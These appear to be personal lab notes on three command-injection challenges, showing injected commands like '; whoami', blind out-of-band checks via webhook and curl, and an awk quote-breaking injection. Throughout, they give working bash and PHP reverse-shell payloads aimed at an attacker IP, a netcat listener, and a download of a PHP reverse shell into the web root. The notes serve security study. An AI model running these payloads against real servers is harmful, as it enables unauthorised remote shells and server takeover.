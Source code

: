 **==In this case we are able to inject commands that are executed by the server.==**

<mark style="background: #FF5582A6;">Command Injection is a type of security vulnerability that occurs when an attacker can execute arbitrary system-level commands on a server or application by manipulating untrusted input. This happens when the application improperly passes user input to system commands without proper validation or sanitization.</mark>
# Command injection 0x01
In this case we can see that we can pass an url that is executed in the command:
- ![[Pasted image 20250104235110.png]]


**==So basically we can try to use:==** 
```bash
; whoami; hello
```

And we get:
- ![[Pasted image 20250104235323.png]]
- this because we make grep command fail with hello


So what we can try to do is to perform a reverse shell.
We can find all the payloads here [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


So we can run:
```bash
; bash -i >& /dev/tcp/OUR_ATTACK_IP/4242 0>&1;
```

This will work if we have open a netcat connection on our host:
```bash
nc -nlvp 4242
```


But it doesn't work. We can see that `PHP` is used so maybe we can use it to execute a shell:
```bash
; which php; hello
```

At this point we can execute it:
```bash
; /usr/local/bin/php php -r '$sock=fsockopen("OUR_ATTACKER_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ; hello
```

And we obtain a shell:
- ![[Pasted image 20250105000710.png]]



# Blind Out-of-band CMD Injection Injection 0x02

In this case we have a similar situation but we don't know the result, because we cannot see anything:
- ![[Pasted image 20250105000907.png]]

We can see that `;` is filtered...


So what we can try to do is to use `webhook` in order to send a request and see if we get it and if the cmd injection works:
```bash
webhook_site?`whoami`
```
- ![[Pasted image 20250105001032.png]]
- we can see that we received the executed `whoami`



We can also use python to create a server on our machine:
```bash
python3 -m http.server 8080
```


And then use:
```bash 
website && curl OUR_IP:8080/test
```
- ![[Pasted image 20250105001249.png]]
- we can see that it works

So we create a file to perform a reverse shell and we serve it in the folder with python:
```bash
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php

nano php-reverse-shell.php (update ip and port)

python3 -m http.server 8080
```


At this point we get it on the victim command injection:
```bash
website && curl OUR_IP:8080/php-reverse-shell.php > /var/www/html/reverse.php
```

Now we have passed the file to the victim and we can open `localhost/rev.php`:
- ![[Pasted image 20250105001758.png]]

At this point we have a shell:
- ![[Pasted image 20250105001821.png]]



# Challeng CMD injection 0x03
In this case we have an application that allows us to redirect a vehicle and to manage the position of it:
- ![[Pasted image 20250106154110.png]]

We can easily see that it uses the `awk` command injecting in it the position `x y` we send in input.


So we can try to do the injection.

So the command executed is `awk 'BEGIN {print sqrt(((-x)^2 + ((-y)^2))}`

So we want to break it trying to insert
```bash
Y_value)^2))}' ; whoami
```
- but we don't get any result, it is insert into the brachets
- ![[Pasted image 20250106154517.png]]

So we try to break it and to comment the part on the right:
```bash
Y_value)^2))}' ; whoami; #
```
- we get the result now
- ![[Pasted image 20250106154621.png]]


Let's get a shell:
```bash
Y_value)^2))}' ; php php -r '$sock=fsockopen("OUR_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ; #
```
- we have to lunch in our host `nc -nvlp 4242`
- ![[Pasted image 20250106154828.png]]

